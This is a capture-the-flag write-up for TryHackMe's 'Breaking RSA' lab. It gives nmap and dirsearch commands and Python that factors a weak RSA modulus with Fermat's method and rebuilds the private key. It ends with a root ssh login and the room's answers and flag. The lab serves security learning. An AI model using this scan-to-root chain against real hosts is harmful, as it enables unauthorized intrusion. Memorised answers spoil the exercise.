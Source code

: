 ![Breaking RSA Banner](https://assets.tryhackme.com/img/banners/default_tryhackme.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/breakrsa/Breaking_Rsa_Cover.png" alt="Breaking RSA Logo">
</p>

# Breaking RSA

This guide contains the answer and steps necessary to get to them for the [Breaking RSA](https://tryhackme.com/room/breakrsa) room.

### Capture the flag

1. How many services are running on the box?

   Using nmap will give us the running services.

   ```console
   nmap -sS -sV 10.10.97.159 -Pn -p-
   ```

   ![Nmap](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/breakrsa/Breaking_Rsa_Nmap.png)

   ><details><summary>Click for answer</summary>2</details>

2. What is the name of the hidden directory on the web server? (without leading '/')

   We can use multiple tools for this task. I will use `dirsearch` here.

   ```console
   dirsearch -u 10.10.97.159:80 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -r
   ```

   ![Directory](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/breakrsa/Breaking_Rsa_Directory.png)

   This gives us a hidden directory which happens to contain an id_rsa key.

   ><details><summary>Click for answer</summary>development</details>

3. What is the length of the discovered RSA key? (in bits)

   To find details about the key, we can use `ssh-keygen`.

   ```console
   ssh-keygen -l -f Downloads/id_rsa.pub 
   ```

   ![Length](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/breakrsa/Breaking_Rsa_Length.png)

   ><details><summary>Click for answer</summary>1096</details>

4. What are the last 10 digits of n? (where 'n' is the modulus for the public-private key pair)

   To get the components of the public key we can use the suggested python module 'pydryptodome'.

   First we must convert the public key to PEM format using `ssh-keygen`.

   ```console
   ssh-keygen -e -f id_rsa.pub -m pem
   ```

   Now we can use the following python code to extract the modulus 'n':

   ```python
   from Crypto.PublicKey import RSA
   key_encoded='''<id_rsa key here>'''


   pubkey = RSA.importKey(key_encoded)
   print(f"Modulus n is: {pubkey.n}")
   print(f"Constant e is: {pubkey.e}")
   ```

   ![Modulus](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/breakrsa/Breaking_Rsa_Modulus.png)

   ><details><summary>Click for answer</summary>1225222383</details>

5. Factorize n into prime numbers p and q

   The provided script didn't work as the modulus was too large to be handled by it. Modifying it also didn't work, so I used a different script.

   ```python
   def isqrt(n):
	x=n
	y=(x+n//x)//2
	while(y<x):
		x=y
		y=(x+n//x)//2
	return x
   def fermat(n):
      t0=isqrt(n)+1
      counter=0
      t=t0+counter
      temp=isqrt((t*t)-n)
      while((temp*temp)!=((t*t)-n)):
         counter+=1
         t=t0+counter
         temp=isqrt((t*t)-n)
      s=temp
      p=t+s
      q=t-s
      return p,q

   print("Enter the number to factor of form (p*q):	")
   n=int(input())
   p,q=fermat(n)
   print("Your first number   : ",int(p))
   print("Your Second number  : ",int(q))
   ```

   Now we can enter the modulus we acquired and we are given 'p' and 'q'.

   ![Factorized](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/breakrsa/Breaking_Rsa_Factorized.png)

   ><details><summary>Click for answer</summary></details>

6. What is the numerical difference between p and q?

   The previous script also outputs the differences between the two factors.

   ><details><summary>Click for answer</summary>1502</details>

7. Generate the private key using p and q (take e = 65537)

   I first tried using openssl, without any success. So I used the pycryptodome library to create a python script to help me with this.

   ```python
   from Crypto.PublicKey import RSA

   # Specify the factors
   p = <first prime>
   q = <second prime>
   e = 65537

   # Calculate n and d
   n = p * q
   phi = (p - 1) * (q - 1)
   d = pow(e, -1, phi)

   # Create the RSA key object
   key = RSA.construct((n, e, int(d)))

   # Export the private key to a PEM file
   with open("private_key.pem", "wb") as f:
      f.write(key.export_key())
   ```

   Add both primes we found in the previous step and generate the private key.

   ```console
   python genpkey.py
   ```

   ![Private Key](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/breakrsa/Breaking_Rsa_Private_Key.png)

8. What is the flag?

   Now that we have the private key, we can use it to ssh into the machine. From the hidden directory we also learned that root login was enabled.

   First restrict usage of the private keu with `chmod`:

   ```console
   chmod 600 private_key.pem
   ```

   Now we can ssh into the machine as root with:

   ```console
   ssh root@10.10.97.159 -i private_key.pem
   ```

   ![Ssh](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/breakrsa/Breaking_Rsa_Ssh.png)

   ![Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/breakrsa/Breaking_Rsa_Flag.png)

   ><details><summary>Click for answer</summary>breakingRSAissuperfun20220809134031</details>